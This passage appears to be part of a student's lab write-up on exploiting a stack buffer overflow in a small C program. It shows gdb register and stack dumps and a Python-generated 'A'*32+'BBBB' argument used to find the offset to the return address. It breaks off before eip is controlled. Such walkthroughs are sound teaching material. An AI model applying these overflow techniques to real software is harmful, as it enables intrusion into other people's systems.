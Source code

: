 ```
eip            0x56556220       0x56556220 <main+87>
eflags         0xa03    [ CF IF OF ]
cs             0x23     35
ss             0x2b     43
ds             0x2b     43
es             0x2b     43
fs             0x0      0
gs             0x63     99
0x56556220 in main ()
```
 - according to result, arguments don't have correct values
 - if we continue , we got this result `the number is:1094795585=84215044` 
 - `1094795585 = 0x41414141` ( hex ) & `84215044 = 0x05050504` ( hex ) which means values overwritten by argv[2]
 - now we will continue before second printf call
 - `printf("the buffer is:%s\n",buf);` need 2 arguments

```
(gdb)
0xffffd5b4:     0x5655701d      0xffffd5bc      0x41414141      0x41414141
0xffffd5c4:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd5d4:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd5e4:     0x41414141      0x42424242      0xffffd604      0x00000001
0xffffd5f4:     0x00000000      0xf7fa6000      0xf7fe4d0a      0xf7ffd000
0xffffd604:     0x00000000      0xf7fa6000      0x00000000      0x00000000
0xffffd614:     0x595f018b      0x1bc6079b      0x00000000      0x00000000
0xffffd624:     0x00000000      0x00000003      0x56556090      0x00000000
=> 0x56556233 <main+106>:       call   0x56556040 <printf@plt>
   0x56556238 <main+111>:       add    esp,0x8
```

 - in this time, arguments are correct
 - we got `the buffer is:AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB▒▒▒` from printf
 - let's continue before ret

```
(gdb)
0xffffd5dc:     0x41414141      0x41414141      0x41414141      0x42424242
0xffffd5ec:     0xffffd604      0x00000001      0x00000000      0xf7fa6000
0xffffd5fc:     0xf7fe4d0a      0xf7ffd000      0x00000000      0xf7fa6000
0xffffd60c:     0x00000000      0x00000000      0x595f018b      0x1bc6079b
0xffffd61c:     0x00000000      0x00000000      0x00000000      0x00000003
0xffffd62c:     0x56556090      0x00000000      0xf7fea350      0xf7fe4f60
0xffffd63c:     0x56559000      0x00000003      0x56556090      0x00000000
0xffffd64c:     0x565560c1      0x565561c9      0x00000003      0xffffd674
=> 0x56556244 <main+123>:       ret
   0x56556245:  xchg   ax,ax
```
 - we got overflow `0x41414141 in ?? ()` but can't control eip
 - we need to substract 12 bytes for argv[2]

```
(gdb) run 12 $(python -c 'print "A"*32+"BBBB"')
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /root/Desktop/cs642/int 12 $(python -c 'print "A"*32+"BBBB"')
the number is:1094795585=84215044
the buffer is:AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB
0xffffd5ec:     0x42424242      0x4d564e00      0x5249445f      0x6f722f3d
0xffffd5fc:     0xffffd614      0x00000001      0x00000000      0xf7fa6000
0xffffd60c:     0xf7fe4d0a      0xf7ffd000      0x00000000      0xf7fa6000
0xffffd61c:     0x00000000      0x00000000      0x20245a9e      0x62bd7c8e
0xffffd62c:     0x00000000      0x00000000      0x00000000      0x00000003
0xffffd63c:     0x56556090      0x00000000      0xf7fea350      0xf7fe4f60
0xffffd64c:     0x56559000      0x00000003      0x56556090      0x00000000
0xffffd65c:     0x565560c1      0x565561c9      0x00000003      0xffffd684
```